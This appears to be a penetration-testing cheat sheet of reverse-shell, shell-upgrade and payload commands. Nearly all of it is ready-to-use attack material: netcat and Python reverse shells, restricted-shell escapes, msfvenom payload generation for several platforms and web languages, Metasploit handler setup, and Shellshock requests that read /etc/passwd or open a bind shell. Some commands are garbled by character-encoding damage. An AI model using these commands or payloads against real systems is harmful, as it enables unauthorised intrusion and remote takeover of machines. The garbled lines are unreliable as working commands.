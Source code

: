 # dont use for wack stuff 


Netcat Shell Listener
`nc -nlvp 4444`

Spawning a TTY Shell - Break out of Jail or limited shell
You should almost always upgrade your shell after taking control of an apache or www user.
(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
(hint: sudo -l to see what you can run)

You may encounter limited shells that use rbash and only allow you to execute a single command per session.
You can overcome this by executing an SSH shell to your localhost:
ssh user@$ip nc $localip 4444 -e /bin/sh
enter user's password
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=linux
`python -c 'import pty; pty.spawn("/bin/sh")'`
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
`echo os.system('/bin/bash')`
`/bin/sh -i`
`perl 'exec "/bin/sh";'`
perl: `exec "/bin/sh";`
ruby: `exec "/bin/sh"`
lua: `os.execute('/bin/sh')`
From within IRB: `exec "/bin/sh"`

From within vi: `:!bash`
or
`:set shell=/bin/bash:shell`

From within vim `':!bash':`

From within nmap: `!sh`

From within tcpdump
echo id\\n/bin/netcat $ip 443 “e /bin/bashâ€™ > /tmp/.test chmod +x /tmp/.test sudo tcpdump ln I eth- -w /dev/null W 1 G 1 z /tmp/.tst Z root

From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

Pen test monkey PHP reverse shell
http://pentestmonkey.net/tools/web-shells/php-reverse-shel

php-findsock-shell - turns PHP port 80 into an interactive shell
http://pentestmonkey.net/tools/web-shells/php-findsock-shell

Perl Reverse Shell
http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

PHP powered web browser Shell b374k with file upload etc.
https://github.com/b374k/b374k

Windows reverse shell - PowerSploitâ€™s Invoke-Shellcode script and inject a Meterpreter shell
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

Web Backdoors from Fuzzdb
https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/

*Linux*
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

*Windows*
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

*Mac*
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`


**Web Payloads**

*PHP*
`msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
OR
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

Then we need to add the  ``<?php``  at the first line of the file so that it will execute as a PHP webpage:
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

*ASP*
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

*JSP*
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

*WAR*
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`


**Scripting Payloads**
*Python*
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

*Bash*
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

*Perl*
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`


**Shellcode**
For all shellcode see â€˜msfvenom â€“help-formatsâ€™ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

*Linux Based Shellcode*
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

*Windows Based Shellcode*
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

*Mac Based Shellcode*
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`


**Handlers**
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z

Once the required values are completed the following command will execute your handler â€“ â€˜msfconsole -L -r â€˜

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

use auxiliary/scanner/ssh/ssh_login
use post/multi/manage/shell_to_meterpreter


Shellshock

Testing for shell shock with NMap
`root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

git clone https://github.com/nccgroup/shocker
`./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

Shell Shock SSH Forced Command

Check for forced command by enabling all debug output with ssh
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'

cat file (view file contents)
echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

Shell Shock run bind shell
echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80